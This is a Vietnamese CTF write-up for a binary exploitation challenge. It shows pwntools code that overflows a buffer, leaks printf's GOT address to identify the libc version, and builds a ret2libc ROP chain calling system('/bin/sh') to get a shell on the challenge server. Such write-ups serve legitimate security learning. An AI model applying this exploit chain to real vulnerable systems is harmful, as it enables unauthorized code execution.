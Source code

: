 # GAGA format string

Kiểm tra security cơ bản của chương trình :

![image](https://user-images.githubusercontent.com/93699926/234168897-27fe429b-c7e1-4d83-ba8f-2012e4baba7a.png)

Kiẻm tra chương trình trong iDA ta thấy chương trình co lỗi buffer overflow như sau :

![image](https://user-images.githubusercontent.com/93699926/234169166-c0fe6553-e1bb-4db5-ac72-cb05e604aa7b.png)

Vì chương trình khônng có function win hay hàm system nào để ta có thể lấy shell nên ta sẽ phải thực hiện kỹ thuật ret2ibc để gọi hàm sytem("/bin/sh") để lấy shell 
. Và để thực hiện kỹ thuật này thì ta cần phải biết trên sever chạy phiên bản libc nào:

# Ý tưởng như sau :
leak địa chỉ got của một hàm (VD như printf ) và đem lên trang này để kiểm tra và tìm kiếm phiên bản libc: https://libc.blukat.me/

Sau đó ta chỉ cần gọi hàm system(/bin/sh) thì có thể lấy được shell

Bước 1: sử dung `ropper --f gaga2` ta tìm được các gadget sau : 
```python
offset=0x48
pop_rdi=0x00000000004012b3
printf_plt=0x4010c0
ret=0x000000000040101a
pop_rsi_r15=0x00000000004012b1
offset=0x48
payload=b"A"*offset+flat(
    pop_rdi,exe.got['printf'],
    ret,
    printf_plt,exe.sym['main']+5
    )
p.sendlineafter(b"Your input: ",payload)
leak=int.from_bytes(p.recvuntil(b"Awesome!",drop=True),'little')
log.info('[+]printf:'+hex(leak))
```
sau khi chạy trên server thì ta tìm leak được địa chỉ got như sau :

![image](https://user-images.githubusercontent.com/93699926/234170282-086e6561-524e-4d56-93e2-46b31ca9b758.png)

đem lên trang tìm kiếm libc ta được kết quả :

![image](https://user-images.githubusercontent.com/93699926/234170362-71a02924-4e86-47d1-b1c3-66c24d55a081.png)

ta thấy phiên bản  libc6_2.31-0ubuntu9.9_amd64.so vô cùng SUS nên ta sẽ download về và chạy thử 

Bước 2 : ta sẽ tính libc base address và sẽ tìm được địa chỉ của string b'/bin/sh' và địa chỉ hàm system trong file libc .Vậy thì chỉ cần ret2libc nữa là xong

```python
libc.address=leak-libc.sym['printf']
log.info('[+]libc base:'+hex(libc.address))
payload=b"A"*offset+flat(
    pop_rdi,next(libc.search(b'/bin/sh')),
    pop_rsi_r15,0,0,
    libc.sym['system'],ret
    )
p.sendlineafter(b"Your input: ",payload)
```
full script in p.py!
chạy chương trình trên sever ta có flag :

![image](https://user-images.githubusercontent.com/93699926/234170877-26c7e800-db18-4405-bb50-e2a0aaa85bfe.png)


